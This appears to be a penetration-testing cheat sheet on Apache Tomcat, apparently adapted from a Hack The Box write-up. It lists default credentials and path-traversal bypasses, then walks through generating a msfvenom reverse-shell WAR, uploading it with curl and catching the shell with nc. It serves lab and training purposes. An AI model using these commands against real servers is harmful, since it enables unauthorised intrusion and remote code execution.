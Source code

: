 # Tomcat

### Tomcat Version Enumeration&#x20;

```
└─$ curl -s http://megahosting.htb:8080/docs/ | grep Tomcat
<title>Apache Tomcat 9 (9.0.31)
```

### Credential Locations

* Creds will be in one of these locations, wont be in both locations&#x20;

```
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

### Username Enum

In some versions prior to Tomcat6 you could enumerate users:

```bash
msf> use auxiliary/scanner/http/tomcat_enum
```

### Default credentials

The most interesting path of Tomcat is _**/manager/html**_, inside that **path you can upload and deploy war files** (execute code). But this path is protected by basic HTTP auth, the most common credentials are:

* admin:admin
* tomcat:tomcat
* admin:\<NOTHING>
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

You could test these and more using:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

### Password backtrace disclosure

Try to access `/auth.jsp` and if you are very lucky it **might disclose the password in a backtrace**.

### Path Traversal (..;/)

In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`

### Understanding your role once you have credentials&#x20;

> NOTE: For security reasons, using the manager webapp is restricted to users with role “manager-gui”. The host-manager webapp is restricted to users with role “admin-gui”. Users are defined in `/etc/tomcat9/tomcat-users.xml`.

The user tomcat has `admin-gui`, but not `manager-gui`, which means I can’t access the manager webapp:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20200622204040089.png" alt=""><figcaption></figcaption></figure>

But I can access the host-manager webapp:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20200622204142330.png" alt=""><figcaption></figcaption></figure>

### Text-based manager <a href="#text-based-manager" id="text-based-manager"></a>

* The tomcat user did have another permission, `manager-script`. This is to allow access to the text-based web service located at `/manager/text`. There’s a list of commands [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported\_Manager\_Commands).
* I can test it out with `list` and it works:

```
root@kali# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Now that I have access to the manager (even if not through the GUI)

### Deploy Malicious War <a href="#deploy-malicious-war" id="deploy-malicious-war"></a>

**Generate Payload**

With access to Tomcat Manager, I can proceed the with a malicious `.war` upload just like in [Jerry](https://0xdf.gitlab.io/2018/11/17/htb-jerry.html#exploiting-tomcat), but here I’ll use the text-based manager application to deploy it. I’ll generate a payload with `msfvenom` to get a simple reverse shell:

```
root@kali# msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o rev.10.10.14.18-443.war
Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: rev.10.10.14.18-443.war
```

**Upload Payload**

Now I’ll use `curl` to send the payload. I’ll need to give it the application path (url), and send the payload using an HTTP PUT request. In `curl`, I’ll use `-T` or `--upload-file` to signify a PUT request:

> ```
>    -T, --upload-file <file>
>           This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name.  NOTE  that  you
>           must  use  a  trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote
>           file name to use. That will most likely cause the upload operation to fail. If this is used on an HTTP(S) server, the PUT command will be used.
> ```

I’ll deploy the payload with:

```
root@kali# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/0xdf --upload-file rev.10.10.14.18-443.war 
OK - Deployed application at context path [/0xdf]
```

That’s:

* `-u 'tomcat:$3cureP4s5w0rd123!'` - the creds
* `/manager/text/deploy` - text-based path for `deploy` command
* `?path=/0xdf` - the path I want the application to live at
* `--upload-file rev.10.10.14.18-443.war` - war file to upload with HTTP PUT

The results suggest it worked. I’ll start `nc`, and then trigger it with `curl http://10.10.10.194:8080/0xdf`. I get a connection back with a shell:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.194.
Ncat: Connection from 10.10.10.194:37000.
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

### Easy Pwns&#x20;

#### Apache Tomcat Metasploit

* **Version**: Apache Tomcat/8.0.47
* **OS**: Microsoft Windows 2008| Vista | 7
* **exploit**: multi/http/struts2\_rest\_xstream
* **Targeturi**: /struts2-rest-showcase/orders/
